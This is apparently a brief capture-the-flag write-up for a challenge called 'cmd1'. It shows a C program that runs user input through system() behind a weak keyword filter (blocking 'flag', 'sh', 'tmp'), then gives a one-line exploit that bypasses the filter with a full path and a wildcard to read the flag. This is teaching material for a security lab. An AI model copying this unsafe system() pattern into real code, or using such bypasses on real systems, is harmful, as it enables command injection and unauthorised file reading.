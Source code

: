 # CMD1
## source:
```c
#include <stdio.h>
#include <string.h>

int filter(char* cmd){
	int r=0;
	r += strstr(cmd, "flag")!=0;
	r += strstr(cmd, "sh")!=0;
	r += strstr(cmd, "tmp")!=0;
	return r;
}
int main(int argc, char* argv[], char** envp){
	putenv("PATH=/thankyouverymuch");
	if(filter(argv[1])) return 0;
	system( argv[1] );
	return 0;
}
```
you must use full paths, and can't write flag.

## Exploit
```sh
./cmd1 '/bin/cat f*'
# mommy now I get what PATH environment is for :)
```